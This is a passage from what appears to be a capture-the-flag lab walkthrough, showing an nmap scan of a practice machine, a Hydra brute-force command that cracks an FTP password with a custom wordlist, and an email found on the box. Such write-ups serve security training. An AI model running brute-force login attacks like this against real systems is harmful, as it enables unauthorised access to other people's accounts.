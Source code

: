 <-  250 Ok
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.

{% endhighlight %}

<h2>SSH</h2>

<p>Hmmm, something happened for certain. But what? I run another <b>Nmap</b> scan, and see that there is new port open at <b>1974</b> - running <b>ssh</b> service. </p>

{% highlight bash %}
PORT     STATE  SERVICE
22/tcp   open   ssh
23/tcp   open   telnet
69/tcp   open   tftp
80/tcp   open   http
137/tcp  closed netbios-ns
138/tcp  closed netbios-dgm
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
1974/tcp open   drp
2525/tcp open   ms-v-worlds
{% endhighlight %}

<p>Reading back through the hints, we can see that there should be account named <b>Veronica</b> in ftp. We can crack the password using <b>Hydra</b> and previously created wordlist.</p>

{% highlight bash %}
root@kali:~# hydra -t 10 -l veronica -P veronica.txt 10.0.2.4 ftp
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-03-13 15:18:59
[DATA] max 10 tasks per 1 server, overall 64 tasks, 773 login tries (l:1/p:773), ~1 try per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 10.0.2.4   login: veronica   password: babygirl_veronica07@yahoo.com
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-03-13 15:19:15
{% endhighlight %}

<p>Great, we have the password! Now let's log in to ftp, maybe we'll find something useful?</p>

{% highlight bash %}
root@kali:~/Documents# cat email-from-billy.eml
        Sat, 20 Aug 2016 12:55:45 -0500 (CDT)
Date: Sat, 20 Aug 2016 12:55:40 -0500
To: vvaughn@polyfector.edu
From: billy@madisonhotels.com
Subject: test Sat, 20 Aug 2016 12:55:40 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
Eric's wifi

Hey VV,

It's your boy Billy here.  Sorry to leave in the middle of the night but I wanted to crack Eric's wireless and then mess with him.
I wasn't completely successful yet, but at least I got a start.

I didn't walk away without doing my signature move, though.  I left a flaming bag of dog poo on his doorstep. :-)

Kisses,

Billy

{% endhighlight %}
